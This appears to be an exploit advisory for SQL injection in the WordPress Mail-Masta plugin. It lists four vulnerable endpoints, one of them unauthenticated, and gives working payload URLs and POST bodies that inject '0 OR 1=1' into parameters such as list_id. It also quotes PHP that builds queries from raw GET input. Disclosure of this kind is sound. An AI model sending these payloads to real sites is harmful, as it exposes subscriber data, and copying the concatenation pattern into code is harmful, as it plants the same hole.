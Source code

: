 Mail-Masta SQL Injection
=========================================
Page: ../wp-content/plugins/mail-masta/inc/lists/csvexport.php (Unauthenticated)

GET Parameter: list_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/lists/csvexport.php?list_id=0+OR+1%3D1&pl=/var/www/html/wordpress/wp-load.php


csvexport.php:
    $list_id=$_GET['list_id'];

    global $wpdb;
    $mail_subscribers = $wpdb->prefix . "masta_subscribers";
    $masta_list = $wpdb->prefix . "masta_list";
    $check_sql = "SELECT * FROM $mail_subscribers WHERE list_id = $list_id";
    $check_list="SELECT * FROM $masta_list WHERE list_id= $list_id";


=========================================

Page: ../wp-content/plugins/mail-masta/inc/lists/view-list.php (Requires Wordpress admin)

GET Parameter: filter_list

http://my_wp_app/wp-admin/admin.php?page=masta-lists&action=view_list&filter_list=0+OR+1%3D1


=========================================

Page: ../wp-content/plugins/mail-masta/inc/campaign/count_of_send.php (Requires Wordpress admin)

POST Parameter: camp_id

http://my_wp_app/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php/?pl=/var/www/html/wordpress/wp-load.php

=========================================


Page: ../wp-content/plugins/mail-masta/inc/campaign_save.php (Requires Wordpress admin)

POST Parameter: list_id

POST /wp-admin/admin-ajax.php?id= HTTP/1.1

...snip...

action=my_action&url=%2Fvar%2Fwww%2Fhtml%2Fwp-content%2Fplugins%2Fmail-masta%2Finc%2Fcampaign_save.php&sender_selected_list_check=check&list_id=1+OR+1%3D1

=========================================
